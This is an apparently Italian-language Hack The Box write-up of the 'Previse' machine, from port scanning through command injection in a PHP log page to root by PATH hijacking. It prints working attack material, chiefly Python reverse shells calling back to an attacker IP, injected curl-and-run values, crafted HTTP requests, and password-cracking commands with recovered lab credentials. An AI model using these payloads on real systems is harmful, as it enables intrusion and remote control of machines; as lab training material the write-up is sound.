#+TITLE: HTB - Previse
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** nmap -sC -sV previse
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-15 19:19 CET
Nmap scan report for previse (10.129.95.185)
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.or
g/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.50 seconds

  #+end_example
*** nmap -p- previse
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-15 19:20 CET
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 51.87% done; ETC: 19:20 (0:00:26 remaining)
Nmap scan report for previse (10.129.95.185)
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 42.47 seconds

  #+end_example
** gobuster
*** gobuster dir -w ~/repos/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://previse -x php
  #+begin_example

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://previse
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/leo/repos/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/02/15 19:22:28 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 2224]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/download.php         (Status: 302) [Size: 0] [--> login.php]   
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/header.php           (Status: 200) [Size: 980]                 
/nav.php              (Status: 200) [Size: 1248]                
/footer.php           (Status: 200) [Size: 217]                 
/css                  (Status: 301) [Size: 300] [--> http://previse/css/]
/status.php           (Status: 302) [Size: 2966] [--> login.php]         
/js                   (Status: 301) [Size: 299] [--> http://previse/js/] 
/logout.php           (Status: 302) [Size: 0] [--> login.php]            
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]         
/config.php           (Status: 200) [Size: 0]                            
/logs.php             (Status: 302) [Size: 0] [--> login.php]            
Progress: 44544 / 441122 (10.10%)                                       ^C
[!] Keyboard interrupt detected, terminating.
                                                                         
===============================================================
2022/02/15 19:26:38 Finished
===============================================================

  #+end_example

** www
   Il server è vulnerabile ad una *Execute After Redirect* (EAR), che ci
   permette di leggere il codice delle pagine a cui non abbiamo
   accesso.

*** /accounts.php
   Per exploitare questa EAR possiamo utilizzare la seguente richiesta
   POST, che ci permette di creare un nuovo account ~leonardo:12345~.

   #+begin_example
POST /accounts.php HTTP/1.1
Host: previse
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=6q3edkuufbam2s9j3i9hegp5f4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

username=leonardo&password=12345&confirm=12345
   #+end_example
*** RCE
    Analizzando il backup .zip del sito trovato in ~files.php~ abbiamo
    scoperto una RCE nel file ~logs.php~ e in particolare in come viene
    gestito il parametro ~delim~ utilizzato per generare i log con un
    dato separatore.
    
    #+begin_example
/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;    
    #+end_example
    
    Un payload che funziona per iniettare del codice bash che verrà
    poi eseguito con la ~exec~ è il seguente
    
    #+begin_example
    space ; <COMMAND>
    #+end_example

    -------------------------------
    
    Per ottenere una rev shell ci basta copiare il seguente codice
    python in un file chiamato ~python3.py~
    
    #+begin_src python
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.19",4321));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);    
    #+end_src

    apriamo un web server sempre con ~python3 -m http.server 1337~ e
    lanciamo due richieste con i seguenti valori nel parametro ~delim~
    
    #+begin_example
    space ; curl http://10.10.14.19:1337/python3.py > /tmp/shell.py
    space ; /usr/bin/python /tmp/shell.py 
    #+end_example
    
    Ad esempio, la prima richiesta sarà questa
    
    #+begin_example
POST /logs.php HTTP/1.1
Host: previse
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://previse
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://previse/file_logs.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=6q3edkuufbam2s9j3i9hegp5f4
Connection: close

delim=space+%3b+curl+http%3a//10.10.14.19%3a1337/python3.py+>+/tmp/shell.py    
    #+end_example
    
    Così facendo otteniamo una shell remota.
* PrivEsc

  #+begin_example
  m4lwhere:ilovecody112235!
  #+end_example

** www-data@previse:/var/www/html$ cat config.php
   #+begin_example
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>   
   #+end_example

** mysql
   root:mySQL_p@ssw0rd!:)
   
   #+begin_src sh
mysql -u root -h localhost -p   
   #+end_src

*** mysql> select * from accounts;

    #+begin_example
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | leonardo | $1$🧂llol$eBQMPwAvz9j9ZpK62qDI// | 2022-02-15 18:30:35 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)    
    #+end_example
** john
*** john pass.txt --format="md5crypt-long" --wordlist=~/repos/wordlists/rockyou.txt  
    #+begin_example
    m4lwhere:ilovecody112235!
    #+end_example

** www-data -> m4lwhere 
   Prendere password hashata dal database, notando che il codice php
   eseguiva la funzione ~crypt~
   
   ~login.php~
   
   #+begin_example
$users = $result->fetch_assoc();
$passHash = $users['password'];
if (crypt($password, '$1$🧂llol$') == $passHash) {
 // ...
}   
   #+end_example

   e vedendo la documentazione di PHP rispetto alla funzione ~crypt~
   https://www.php.net/manual/en/function.crypt.php notiamo che

   #+begin_example
   CRYPT_MD5 - MD5 hashing with a twelve character salt starting with $1$
   #+end_example
   
   Dato che il nostro hash iniziava con $1$ abbiamo un hash ~md5~ che
   può essere craccato con
   
   #+begin_example
john pass.txt --format="md5crypt-long" --wordlist=~/repos/wordlists/rockyou.txt     
   #+end_example
** sudo -l
   #+begin_example
User m4lwhere may run the following commands on previse:
   (root) /opt/scripts/access_backup.sh   
   #+end_example
   
** /opt/scripts/log_process.py
   #+begin_src python
import pandas as pd
from sys import argv

if argv[1] == 'space':
    delims = ' '
elif argv[1] == 'tab':
    delims = '\t'
else:
    delims = ','

df = pd.read_csv('/var/www/file_access.log', 
                index_col='time', 
                names=['time', 'user', 'fileID'])
df.to_csv('/var/www/out.log', sep=delims)   
   #+end_src

** m4lwhere@previse:/opt/scripts$ cat access_backup.sh
   #+begin_src sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz   
   #+end_src
** m4lwhere -> root
   L'idea è quella di attaccare lo script
   ~/opt/scripts/access_backup.sh~ che è vulnerabile ad una ~PATH
   exploitation~ nei binari ~gzip~ e ~date~.

   Per attaccare possiamo procedere come segue:

   1. Creiamo un payload malevolo in ~/tmp~ chiamato ~gzip~
      
      #+begin_src sh
echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.19\",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > gzip      
      #+end_src

   2. Modifichiamo la ~PATH~ dell'utente
      
      #+begin_src sh
export PATH=/tmp:$PATH      
      #+end_src

   3. Mi metto in ascolto
      
      #+begin_src sh
nc -lvnp 4321      
      #+end_src

   4. Eseguo lo script vulnerabile come root tramite la configurazione
      presente nei ~sudoers~
      
      #+begin_src sh
sudo  /opt/scripts/access_backup.sh    
      #+end_src
